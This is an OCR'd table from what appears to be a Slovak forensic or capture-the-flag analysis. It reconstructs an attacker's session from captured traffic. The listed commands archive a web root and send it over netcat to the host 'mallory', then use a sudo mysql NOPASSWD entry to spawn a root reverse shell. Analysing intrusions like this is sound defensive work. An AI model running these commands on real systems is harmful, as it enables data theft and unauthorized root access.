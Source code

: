 | 111838               | Command    | df -h                                                                                                                                                                                                                                                                                                                                                        |
| 111839               | Response   | Filesystem      Size  Used Avail Use% Mounted on<br> overlay          98G   44G   51G  47% /<br>tmpfs            64M     0   64M   0% /dev<br> shm              64M     0   64M   0% /dev/shm<br> /dev/sda2        98G   44G   51G  47% /shared<br> tmpfs           3.9G     0  3.9G   0% /proc/acpi<br> tmpfs           3.9G     0  3.9G   0% /sys/firmware |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111841               | Command    | tar -zcf /tmp/html.tgz /var/www/html<br> (útočník vytvoril archív z priečinka /var/www/html)                                                                                                                                                                                                                                                                 |
| 111842               | Response   |                                                                                                                                                                                                                                                                                                                                                              |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111843               | Command    | cat /tmp/html.tgz \| nc mallory 42122<br>(útočník si súbor poslal cez netcat na port 42122)                                                                                                                                                                                                                                                                  |
| 111844               | Response   |                                                                                                                                                                                                                                                                                                                                                              |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111847<br>-<br>11866 | TCP Stream | máme [html.tgz](html.tgz)                                                                                                                                                                                                                                                                                                                                    |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111867               | Command    | sudo -l<br>(útočník zisťuje, čo je v sudoers a zistil, že môže ako root pomocou sudo spustiť príkaz mysql)                                                                                                                                                                                                                                                   |
| 111869               | Response   | Matching Defaults entries for<br> www-data on 2c1c649ff17d:<br>    env_reset, mail_badpass,<br>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,<br>    use_pty<br><br>User www-data may run the following commands on 2c1c649ff17d:<br>    (root) NOPASSWD: /usr/bin/mysql*                                                |
|                      |            |                                                                                                                                                                                                                                                                                                                                                              |
| 111871               | Command    | sudo /usr/bin/mysql -e '\! nc -e /bin/sh mallory 42123'<br> (útočník vytvoril nový reverse shell, tentokrát na porte 42123)                                                                                                                                                                                                                                  |